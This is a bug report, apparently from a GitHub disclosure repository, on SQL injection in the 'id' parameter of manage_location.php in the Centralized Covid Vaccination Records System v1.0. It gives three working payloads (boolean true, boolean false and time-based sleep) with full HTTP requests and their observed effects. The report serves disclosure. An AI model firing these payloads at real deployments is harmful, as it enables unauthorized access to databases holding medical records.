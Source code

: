 # Centralized Covid Vaccination Records System v1.0 has SQL injection

BUG_Author:garrett

Website source address:https://www.sourcecodester.com/php/14997/centralized-covid-vaccination-records-system-php-free-source-code.html

Vulnerability File: /vaccinated/admin/maintenance/manage_location.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and 996=996 and 'a'='a

```
GET /vaccinated/admin/maintenance/manage_location.php?id=1%27%20and%20996=996%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=s2tgt6ls6vslcot7kuqgp70v0r
Connection: close
```

The sql statement is executed correctly

![image](https://github.com/ZERO-XX-ONE/bug_report/blob/main/sql1.png)

Payload2:id=1' and 996=996 and 'a'='b

```
GET /vaccinated/admin/maintenance/manage_location.php?id=1%27%20and%20996=996%20and%20%27a%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=s2tgt6ls6vslcot7kuqgp70v0r
Connection: close
```

The sql statement was executed incorrectly, causing the page not to be echoed normally

![image](https://github.com/ZERO-XX-ONE/bug_report/blob/main/sql2.png)

Payload3:id=1' and (select 1 from (select(sleep(20)))c) AND 'd'='d

```
GET /vaccinated/admin/maintenance/manage_location.php?id=1%27%20and%20(select%201%20from%20(select(sleep(20)))c)%20AND%20%27d%27=%27d HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=s2tgt6ls6vslcot7kuqgp70v0r
Connection: close
```

The server response time is 20 seconds

![image](https://github.com/ZERO-XX-ONE/bug_report/blob/main/sql3.png)
